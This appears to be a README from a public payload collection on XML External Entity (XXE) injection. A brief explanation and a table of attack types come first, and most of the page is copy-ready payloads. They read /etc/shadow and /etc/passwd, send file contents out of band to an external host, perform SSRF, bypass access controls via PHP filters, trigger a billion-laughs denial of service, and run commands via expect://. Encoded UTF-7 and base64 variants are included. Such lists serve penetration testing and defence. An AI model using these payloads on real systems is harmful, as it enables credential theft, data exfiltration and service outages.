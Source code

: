 ### XML External Entity (XXE) Injection Payload List
<p align="center">
  <img src="https://cdn.rawgit.com/sindresorhus/awesome/d7305f38d29fed78fa85652e3a63e154dd8e8829/media/badge.svg"> <img src="https://img.shields.io/github/stars/payloadbox/xxe-injection-payload-list?style=social"> <img src="https://img.shields.io/github/forks/payloadbox/xxe-injection-payload-list?style=social"> <img src="https://img.shields.io/github/repo-size/payloadbox/xxe-injection-payload-list"> <img src="https://img.shields.io/github/license/payloadbox/command-injection-payload-list"> <img src="https://img.shields.io/github/issues/detail/author/payloadbox/command-injection-payload-list/1">
</p>

In this section, we'll explain what XML external entity injection is, describe some common examples, explain how to find and exploit various kinds of XXE injection, and summarize how to prevent XXE injection attacks. 

#### What is XML external entity injection?

XML external entity injection (also known as XXE) is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data. It often allows an attacker to view files on the application server filesystem, and to interact with any backend or external systems that the application itself can access.

In some situations, an attacker can escalate an XXE attack to compromise the underlying server or other backend infrastructure, by leveraging the XXE vulnerability to perform server-side request forgery (SSRF) attacks. 

<p align="center"> 
<img src="/Image/xxe-injection.jpg">
</p>

There are various types of XXE attacks: 

|XXE Attack Type               |Description                          |
|----------------|-------------------------------|
|Exploiting XXE to Retrieve Files| Where an external entity is defined containing the contents of a file, and returned in the application's response. |
|Exploiting XXE to Perform SSRF Attacks| Where an external entity is defined based on a URL to a back-end system. |
|Exploiting Blind XXE Exfiltrate Data Out-of-Band| Where sensitive data is transmitted from the application server to a system that the attacker controls. |
|Exploiting blind XXE to Retrieve Data Via Error Messages | Where the attacker can trigger a parsing error message containing sensitive data. |

##### XML External Entity (XXE) Injection Payloads

###### XXE: Basic XML Example

```
<!--?xml version="1.0" ?-->
<userInfo>
 <firstName>John</firstName>
 <lastName>Doe</lastName>
</userInfo>
```

###### XXE: Entity Example

```
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
 <userInfo>
  <firstName>John</firstName>
  <lastName>&example;</lastName>
 </userInfo>
```

###### XXE: File Disclosure

```
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/shadow"> ]>
<userInfo>
 <firstName>John</firstName>
 <lastName>&ent;</lastName>
</userInfo>
```

###### XXE: Denial-of-Service Example

```
<!--?xml version="1.0" ?-->
<!DOCTYPE lolz [<!ENTITY lol "lol"><!ELEMENT lolz (#PCDATA)>
  <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
  <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
  <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
  <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
  <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
  <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
  <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
  <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
  <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<tag>&lol9;</tag>
 ```
 
###### XXE: Local File Inclusion Example
 
 ```
 <?xml version="1.0"?>
<!DOCTYPE foo [  
<!ELEMENT foo (#ANY)>
<!ENTITY xxe SYSTEM "file:///etc/passwd">]><foo>&xxe;</foo>
 ```
 
###### XXE: Blind Local File Inclusion Example (When first case doesn't return anything.)
 
 ```
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo (#ANY)>
<!ENTITY % xxe SYSTEM "file:///etc/passwd">
<!ENTITY blind SYSTEM "https://www.example.com/?%xxe;">]><foo>&blind;</foo>
 ```
 
###### XXE: Access Control Bypass (Loading Restricted Resources - PHP example)

```
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ENTITY ac SYSTEM "php://filter/read=convert.base64-encode/resource=http://example.com/viewlog.php">]>
<foo><result>&ac;</result></foo>
```

###### XXE:SSRF ( Server Side Request Forgery ) Example

```
<?xml version="1.0"?>
<!DOCTYPE foo [  
<!ELEMENT foo (#ANY)>
<!ENTITY xxe SYSTEM "https://www.example.com/text.txt">]><foo>&xxe;</foo>
```

###### XXE: (Remote Attack - Through External Xml Inclusion) Exmaple

```
<?xml version="1.0"?>
<!DOCTYPE lolz [
<!ENTITY test SYSTEM "https://example.com/entity1.xml">]>
<lolz><lol>3..2..1...&test<lol></lolz>
```

###### XXE: UTF-7 Exmaple

```
<?xml version="1.0" encoding="UTF-7"?>
+ADwAIQ-DOCTYPE foo+AFs +ADwAIQ-ELEMENT foo ANY +AD4
+ADwAIQ-ENTITY xxe SYSTEM +ACI-http://hack-r.be:1337+ACI +AD4AXQA+
+ADw-foo+AD4AJg-xxe+ADsAPA-/foo+AD4
```

###### XXE: Base64 Encoded

```
<!DOCTYPE test [ <!ENTITY % init SYSTEM "data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> %init; ]><foo/>
```

###### XXE: XXE inside SOAP Example

```
<soap:Body>
  <foo>
    <![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://x.x.x.x:22/"> %dtd;]><xxx/>]]>
  </foo>
</soap:Body>
```

###### XXE: XXE inside SVG

```
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <image xlink:href="expect://ls"></image>
</svg>
```

#### References :
 
👉 [XML External Entity (XXE) Processing](https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing)

👉 [XML External Entity Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html) 

👉 [Testing for XML Injection (OTG-INPVAL-008)](https://www.owasp.org/index.php/Testing_for_XML_Injection_(OTG-INPVAL-008))
